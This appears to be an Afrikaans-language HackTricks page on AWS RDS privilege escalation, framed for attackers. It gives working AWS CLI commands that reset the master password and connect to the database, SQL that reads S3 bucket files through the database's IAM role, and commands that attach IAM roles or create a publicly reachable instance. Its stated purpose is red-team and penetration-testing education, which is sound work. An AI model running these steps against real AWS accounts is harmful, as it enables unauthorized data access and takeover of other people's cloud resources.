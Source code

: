 # AWS - RDS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relasionele Databasisdiens

Vir meer inligting oor RDS, kyk:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller **die wagwoord van die meester gebruiker verander**, en die aanmelding binne die databasis:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Jy sal in staat moet wees om die **databasis te kontak** (hulle is gewoonlik net vanaf binne-netwerke toeganklik).
{% endhint %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**dokumentasie**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming aan die DB-instantie koppel.

### Misbruik RDS Rol IAM toestemmings

#### Postgresql (Aurora)

{% hint style="success" %}
As jy **`SELECT datname FROM pg_database;`** uitvoer en 'n databasis genaamd **`rdsadmin`** vind, weet jy jy is binne 'n **AWS postgresql databasis**.
{% endhint %}

Eerstens kan jy kyk of hierdie databasis gebruik is om toegang tot enige ander AWS-diens te verkry. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:
```sql
SELECT * FROM pg_extension;
```
As jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **'n soort toegang oor S3** het (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy daar sien of die **kluster enige IAM Rol aangeheg het** in die veld **`AssociatedRoles`**. As daar enige is, kan jy aanneem dat die databasis **voorberei is om toegang tot ander AWS dienste** te hê. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry) kan jy **raai** watter ekstra toegang die databasis het.

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
As jy **rauwe AWS geloofsbriewe** gehad het, kon jy dit ook gebruik om toegang tot S3-data te verkry met:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **hoef nie enige parameter groep veranderlike te verander** om toegang tot S3 te verkry nie.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** uitvoer en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem jy is binne 'n **AWS RDS mysql db**.
{% endhint %}

Binne die mysql voer **`show variables;`** uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, waardes het, kan jy aanneem die databasis is voorberei om toegang tot S3 data te verkry.

Ook, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die kluster enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS dienste beteken).

Nou, om **'n lêer binne 'n emmer** te lees, moet jy die volle pad weet. Jy kan dit lees met:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.\
Let daarop dat sommige DB's addisionele konfigurasies vereis soos Mysql, wat die rol ARN in die parameter groepe moet spesifiseer.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instantie binne 'n kluster** wat reeds bestaan en 'n **IAM rol** aangeheg het, skep. Hy sal nie in staat wees om die meester gebruikerswagwoord te verander nie, maar hy mag in staat wees om die nuwe databasisinstantie aan die internet bloot te stel:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Toets
{% endhint %}

'n Aanvaller met die toestemmings `rds:CreateDBInstance` en `iam:PassRole` kan **'n nuwe RDS-instantie met 'n spesifieke rol aangeheg skep**. Die aanvaller kan dan moontlik **toegang tot sensitiewe data** verkry of die data binne die instantie wysig.

{% hint style="warning" %}
Sommige vereistes van die rol/instantie-profiel om aan te heg (van [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Die profiel moet in jou rekening bestaan.
* Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
* Die naam van die instantie-profiel en die geassosieerde IAM-rolnaam moet begin met die voorvoegsel `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n gespesifiseerde rol aan 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

{% hint style="warning" %}
Die DB-instantie moet buite 'n kluster wees vir dit
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongeoorloofde wysigings aan die data in die RDS-instansie.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
